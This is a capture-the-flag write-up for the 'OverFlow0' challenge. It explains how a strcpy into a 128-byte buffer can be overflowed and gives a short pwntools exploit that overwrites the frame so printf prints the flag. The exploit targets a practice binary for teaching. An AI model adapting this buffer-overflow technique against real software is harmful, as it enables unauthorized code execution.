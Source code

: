 # OverFlow0 - 100pt

### Challenge ###
> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server


### Hints ###
> Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting. 

### Solution ###

>We have a program that asks a parameter from shell and use it in a vuln function.
In this function, the parameter is used to fill a 128 bytes buffer with strcpy.
Ok strcpy it's a vulnerable fuction so we can perform our exploit providing a string with lenght over 128 byte to perform an overflow by the buffer contained in vuln.
With this overflow we can trigger se signal function calling printf to print the flag.

### Executing the exploit ###
>In vuln function we have:

    
	void vuln(char *input){
        char buf[128];
        strcpy(buf, input);
    }
	
>so we have to provide 0x88 bytes of garbage before arriving to EBP.
Now we can use ebp like parameter to printf, so we provide for ebp flag's address, and then, we provide printf address to ret.

### Exploit: ###

    garbage = "\x90" * 0x88 #buffer size
    flag_addr = p32(0x0804A080)
    printf_addr = p32(0x08048460) 

    #Coocking exploit
    exploit = garbage + flag_addr + printf_addr

    #sending exploit
    p = process(['/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6/vuln', exploit])
    p.interactive()